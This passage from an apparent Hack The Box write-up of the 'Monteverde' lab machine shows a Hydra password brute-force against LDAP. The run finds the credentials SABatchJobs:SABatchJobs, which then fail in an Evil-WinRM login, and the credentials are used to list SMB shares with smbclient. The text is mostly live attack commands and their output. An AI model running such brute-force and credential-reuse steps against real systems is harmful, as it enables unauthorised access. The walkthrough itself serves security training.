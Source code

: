 We can see the **"Account Lockout Threshold: None"**. So we can try to bruteforce the credentials without risk:
~~~
root@kali:~# hydra -L users.txt -P "/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100.txt" -e nsr -s 389 ldap2://10.10.10.172

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-01 07:56:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1030 login tries (l:10/p:103), ~65 tries per task
[DATA] attacking ldap2://10.10.10.172:389/
[389][ldap2] host: 10.10.10.172   login: MONTEVERDE$
[389][ldap2] host: 10.10.10.172   login: AAD_987d7f2f57d2
[389][ldap2] host: 10.10.10.172   login: mhope
[389][ldap2] host: 10.10.10.172   login: SABatchJobs
[389][ldap2] host: 10.10.10.172   login: SABatchJobs   password: SABatchJobs
[389][ldap2] host: 10.10.10.172   login: svc-ata
[389][ldap2] host: 10.10.10.172   login: svc-bexec
[389][ldap2] host: 10.10.10.172   login: svc-netapp
[389][ldap2] host: 10.10.10.172   login: dgalanos
[389][ldap2] host: 10.10.10.172   login: roleary
[389][ldap2] host: 10.10.10.172   login: smorgan
1 of 1 target successfully completed, 11 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-01 07:56:53
~~~
### 3.2- SMB Shares

We have valid credentials **"SABatchJobs:SABatchJobs"**. However, it doesn't work when we try to login using `Evil-WinRM`:
~~~
root@kali:~# evil-winrm -i 10.10.10.172 -u SABatchJobs -p SABatchJobs

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
~~~
Let's try to find shares with `smbclient`:
~~~
root@kali:~# smbclient -U SABatchJobs -L //10.10.10.172
Enter WORKGROUP\SABatchJobs's password:
Domain=[MEGABANK] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	azure_uploads   Disk      
	C$              Disk      Default share
	E$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	users$          Disk    
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
~~~
